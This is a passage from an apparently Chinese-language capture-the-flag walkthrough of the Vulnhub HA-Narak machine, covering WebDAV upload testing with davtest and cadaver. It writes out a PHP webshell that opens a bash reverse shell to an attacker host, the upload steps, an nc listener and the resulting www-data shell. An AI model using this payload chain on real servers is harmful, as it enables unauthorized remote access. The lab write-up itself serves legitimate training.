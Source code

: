 Devtest 这个工具就是用来测试 WebDAV 有哪些文件允许上传，并且能够上传 shell 文件。

``` bash
sudo davtest -auth yamdoot:Swarg -cleanup -url http://192.168.118.132/webdav
```

测试结果如下：

![davtest 测试结果](https://pic.imgdb.cn/item/647c13a9f024cca173274e08.png)

可以看到，php文件师是能够执行的，这里可以直接写入 webshell 用工具连接，也可以写入一句话反弹 shell 。此处选择后者：

``` php
<?php exec("\bin\bash -c 'bash -i >& /dev/tcp/192.168.xxx.130/ 0>&1'");?>
```

{% blockquote Kali Docs https://www.kali.org/tools/cadaver/%}
cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking.

Its operation is similar to the standard BSD ftp(1) client and the Samba Project’s smbclient(1).

This package includes GnuTLS (HTTPS) support.

WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
{% endblockquote %}

cadaver 是一个可以用来访问和编辑web服务器上的文件的工具，kali 系统中默认装有此软件，因此用 cadaver 通过之前活得的用户名与密码，写入 `shell.php` 上传，使用 nc 监听端口，然后请求 `http://192.168.xxx.132/webdav/shell.php`：

``` bash
echo "<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.xxx.130/2333 0>&1'");?>" > shell.php
cadaver http://192.168.xxx.132/webdav # then enter User ID and passwd
put /path/to/shell.php
nc -lvnp 2333
```
{% hideToggle nc参数含义 %}

反弹shell中经常回用到netcat这个工具，以下是`-lvnp`参数的含义：

`-l` ：表示监听模式，使 nc 在指定的端口上监听传入连接。
`-v` ：表示详细模式（verbose mode），它会显示更多关于连接的信息，例如连接的来源等。
`-n` ：表示禁用主机名解析，这意味着 nc 不会尝试将 IP 地址解析为主机名。
`-p` ：后面跟着端口号，表示要监听的端口号。

{% endhideToggle %}

可以看到已经回弹 shell 了，是 `www-data` 用户

```
┌──(kali㉿kali)-[~/Desktop/BoxWalk/Vulnhub/HA-Narak]
└─$ nc -lvnp 2333
listening on [any] 2333 ...
connect to [192.168.xxx.130] from (UNKNOWN) [192.168.xxx.132] 56482
bash: cannot set terminal process group (590): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/webdav$  
```
